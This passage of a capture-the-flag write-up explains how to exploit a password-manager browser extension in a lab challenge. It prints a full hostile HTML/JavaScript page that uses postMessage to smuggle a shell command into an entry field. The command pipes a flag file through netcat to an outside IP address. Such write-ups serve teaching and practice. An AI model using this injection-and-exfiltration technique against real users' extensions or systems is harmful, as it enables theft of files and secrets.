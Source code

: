```
```

Cool. So we can access files. We should be able to follow this approach for accessing the flag file at `/opt/problems/firstfail_5_450fdfd666ac398f344740a22e24c2a0/flag.txt` on the admin's system. We just need to build a payload that will give us the flag when the admin accesses it.

#### 2. Build payload

So our payload is going to be some malicious javascript we host on our own web server. That way when the admin reaches out to our website to test the plugin, it renders the flag for us.

We can just copy the http://challenge.acictf.com:62110/example website and modify the `<script>` block toward the bottom. We will replace the original `} else {` statement with our payload. Let's break down the payload a bit.

We are using [window postMessage](https://davidwalsh.name/window-postmessage) to send data from the browser to the app. Above we discussed the need to control the message type. Here we establish the `type` as `add_entry` and the `host` as `challenge.acictf.com:62110`. Now the `add_entry` function will append a new entry to the `data/challenge.acictf.com\:62110` file. Notice we are piping `|` the contents of the `cat` command to `nc 165.227.198.232 1337`. We are having the admin's browser perform a call out to the server we control on port `1337` with the contents of the flag.txt file when the password manager extension page is opened in a new tab by the `window.PasswordManager.openManager()` part of the script.

```html
<html>
  <body>
    <h1>Test page for Secure Password Manager</h1>
    <p>This page lets you test the password manager. Once you have it working, you can use it to log in below and continue on.</p>
    <div id="notice"></div>
<form>
  <input type="text" name="username" placeholder="Username"><br/>
  <input type="password" name="password" placeholder="Password"><br/>
  <button>Login</button>
</form>

Cools the plugin works!<br> However the admin has your flag is in <code>/opt/problems/firstfail_5_450fdfd666ac398f344740a22e24c2a0/flag.txt</code><br/>
We want to test the plugin even more! <a href="/dovisit">Give us a url to visit!</a>

    <script>
      window.onload = function() {
        if (window.PasswordManager === undefined) {
          document.getElementById('notice').innerHTML = `<h2 style="color:red">You do no have Secure Password Manager installed...</h2>`;
        } else {
          Promise.race([window.PasswordManager.ping(), new Promise((resolve, reject) => {setTimeout(reject,1000);})]).then((r)=>{
            window.postMessage({
              type:'add_entry',
              host:"challenge.acictf.com:62110",
              entry:"username=port.postMessage({type: 'entries',pattern: '; cat /opt/problems/firstfail_5_450fdfd666ac398f344740a22e24c2a0/flag.txt | nc 165.227.198.232 1337'}),password=\"test\""
            }).then(function() {console.log('done')})
          }).catch(()=>{
            window.PasswordManager.openManager()
            document.getElementById('notice').innerHTML = `<h2 style="color:red">You have the plugin installed, but the RPC is not installed correctly...</h2>`;
          });
        }
      }
    </script>
  </body>
</html>
```